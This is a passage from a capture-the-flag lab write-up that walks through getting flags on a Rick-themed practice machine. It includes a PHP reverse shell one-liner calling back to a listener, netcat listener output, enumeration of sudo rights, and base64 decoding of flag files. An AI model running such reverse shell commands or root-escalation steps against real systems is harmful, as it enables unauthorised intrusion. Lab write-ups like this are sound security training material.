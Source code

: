 
```shell
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Listener : 

```shell
└─$ nc -lvp 1234
listening on [any] 1234 ...
10.10.164.56: inverse host lookup failed: Unknown host
connect to [10.8.80.139] from (UNKNOWN) [10.10.164.56] 52060                             
┌──(kali㉿kali)-[~]
└─$ 
```

I tried sooo much reverse shell but none worked... The connection was always closed after it was established

So, let's forget reverse shell and continue enumeration.

If we enumerate much we discover /home/rick/

Let's cat the file in the rick's home directory and decode it 

```shell
use 
└─$ echo "MSBqZXJyeSB0ZWFoCg==" | base64 -d
[second flag]
```

Output of **sudo -l** :
```shell
 Matching Defaults entries for www-data on ip-10-10-164-56.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-164-56.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

So, we can run ANY command as root ? 

Perfect !   

By adding sudo before each command we can access all files on the system...

### The third flag

```shell
┌──(kali㉿kali)-[~]
└─$ sudo ls -l /root/
3rd.txt
snap    
```

As before, we use base64 to read files 

```shell
┌──(kali㉿kali)-[~]
└─$ sudo base64 -d 3rd.txt
[third flag]
```

Done !
